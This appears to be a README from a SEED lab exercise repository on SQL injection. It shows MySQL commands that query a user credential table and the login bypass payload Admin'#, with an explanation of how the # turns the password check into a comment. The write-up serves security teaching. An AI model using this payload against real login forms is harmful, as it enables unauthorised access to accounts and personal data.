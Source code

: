 # Seed-lab-SQL-injection

# Task 1
sudo mysql -u root -pseedubuntu

mysql> use Users;

mysql> show Tables;

mysql> select * from credential where Name = 'Alice';

![Task 1 Image](https://github.com/M-Kamran-Arshad/Seed-lab-SQL-injection/blob/main/task%201.png)

# task 2

Username "Admin'#"
Password "abc" It will result in a SQL query as:

SELECT id, name, eid, salary, birth, ssn, address, email,

nickname, Password

FROM credential

WHERE name= 'Admin' #' and Password='abc'

Then statements after # will be regarded as comments. So we can log in as Admin.

![Task 1 Image](https://github.com/M-Kamran-Arshad/Seed-lab-SQL-injection/blob/main/task%202.1.png)
